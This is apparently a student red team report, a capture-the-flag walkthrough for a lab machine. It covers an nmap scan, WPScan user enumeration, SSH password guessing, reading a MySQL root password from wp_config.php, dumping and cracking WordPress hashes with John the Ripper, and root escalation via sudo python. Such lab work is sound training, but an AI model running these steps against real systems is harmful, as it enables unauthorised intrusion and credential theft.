 # Red Team: Summary of Operations
 
## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
 
### Exposed Services
 
 
Nmap scan results for each machine reveal the below services and OS details:
 
Command: $ nmap -sV 192.168.1.110
  
  
![redteam1](https://user-images.githubusercontent.com/91024338/143156404-1f4162a4-e0e5-4385-884b-4daf231ff115.JPG)

 
This scan identifies the services below as potential points of entry:
 
- Target 1
 
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn 
  - Port 445/TCP Open netbios-ssn
 
The following vulnerabilities were identified on each target:
 
- Target 1
  - Weak user password
  - User enumeration (WordPress site)
  - Unsalted user password hash (WordPress site)
  - Misconfiguration of user privileges and user escalation
 
### Exploitation
 
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - Flag1: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - Used WPScan to enumerate users of the Target 1 WordPress site
	-Used Brute Force to guess Michael’s password
  - Command:
      - wpscan --url http://192.168.1.110/wordpress/ --enumerate u
![redteam2](https://user-images.githubusercontent.com/91024338/143157109-f730c529-0fa3-4934-8e58-291f6b2721f3.JPG)
![redteam3](https://user-images.githubusercontent.com/91024338/143157142-49c0c5f1-e7e1-4bc6-9784-072e6d685ee6.JPG)
![redteam4](https://user-images.githubusercontent.com/91024338/143157159-d5dc97d7-2bb9-4106-9649-ce2bd54a666b.JPG)
![redteam5](https://user-images.githubusercontent.com/91024338/143157180-25422c20-6bb0-4bdb-8500-d297f4d7c77b.JPG)




	-Password:michael
      - SSH in michael: ssh michael@192.168.1.110
      - cd var/www/html
      - ls -l
      - nano service.html (Flag1 located) 
![redteam6](https://user-images.githubusercontent.com/91024338/143157402-7ddab105-f4dc-48ea-9d14-77bf279cd6b9.JPG)
![redteam7](https://user-images.githubusercontent.com/91024338/143157412-0322b2b3-9699-4138-88ee-9061cc2c84ea.JPG)
![redteam8](https://user-images.githubusercontent.com/91024338/143157425-b9a86fe8-902b-416e-9068-45047c6628fe.JPG)


 
  - Flag2: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Used WPScan to enumerate users of the Target 1 WordPress site
	- Used password from previous Brute Force
	-Password: michael
      - ssh michael@192.168.1.110
      - cd var/www
      - ls 
      - cat flag2.txt
            
![redteam9](https://user-images.githubusercontent.com/91024338/143157461-5f80f5d5-3ed2-4d53-9237-b3a63c09179b.JPG)
      
      
- Flag3:afc01ab56b50591e7dccf93122770cd2
**Exploit Used**
Same exploits used to gain Flag 1 and 2:
Accessing MySQL Database
-Commands
	-cd /var/www/html/wordpress
	-cat wp_config.php
(screenshot)
	-mysql -u root -p’R@v3nSecurity’ 
	-show databases;
	-use wordpress;
-show tables;
	-select * from wp_posts;

![redteam10](https://user-images.githubusercontent.com/91024338/143157686-13ad1e0a-309f-433e-b0fe-e992eedce83a.JPG)
![redteam11](https://user-images.githubusercontent.com/91024338/143157712-ba16df30-7895-4d8c-a329-1f761bba46b2.JPG)
![redteam12](https://user-images.githubusercontent.com/91024338/143157739-a0724fed-e838-45b7-ac73-ededead52c1e.JPG)
![redteam13](https://user-images.githubusercontent.com/91024338/143157753-940e3539-dd53-415b-9027-df1ea24d8cd2.JPG)




 
 
Flag4:715dea6c055b9fe3337544932f2941ce
	-**Exploit used**
- Used MySQL database to gain access to user credentials.
- Used John the Ripper to crack the password hash.
- Used Python to gain root privileges.
- User credentials are stored in the ‘wp_users table’ in the wordpress database.
- I copied/saved the usernames and password hashes to my Kali machine in a file named wp_hashes.txt.
-Commands:
	-mysql -u root -p’R@v3nSecurity’ 
	-show databases;
	-use wordpress;
	-show tables;
	-select * from wp_users;

 ![redteam14](https://user-images.githubusercontent.com/91024338/143157919-218bf1ae-63f2-4b22-80a1-ac2fc98b7226.JPG)

 
-Commands:
	- cd /usr/share/wordlist
	- john --wordlist=rockyou.txt wp_hashes.txt
 
![redteam15](https://user-images.githubusercontent.com/91024338/143158223-3eea04ea-f1bb-4539-ac76-f2fd9583a468.JPG)
![redteam16](https://user-images.githubusercontent.com/91024338/143158252-026f0a7d-8737-418b-af1f-fd98361847e2.JPG)


 
-Results: 
-Steven’s password: pink84
 
- After I cracked Steven’s password I SSH as Steven, checked for root      
  privileges and escalated to root with Python.
-Commands:
	-ssh steven@192.168.1.110
	-password: pink84
	- sudo -l
	- sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
	- cd /root
	- ls
	- cat flag4.txt

![redteam17](https://user-images.githubusercontent.com/91024338/143158406-09a79c6d-99e1-4246-95fa-82b1abd1b3f1.JPG)
![redteam18](https://user-images.githubusercontent.com/91024338/143158420-fe0269f5-e475-41ad-b374-4b1e0d07e08b.JPG)
![redteam19](https://user-images.githubusercontent.com/91024338/143158438-ac7b1fac-acd6-48ea-ac5b-aa9e31184597.JPG)

 

 

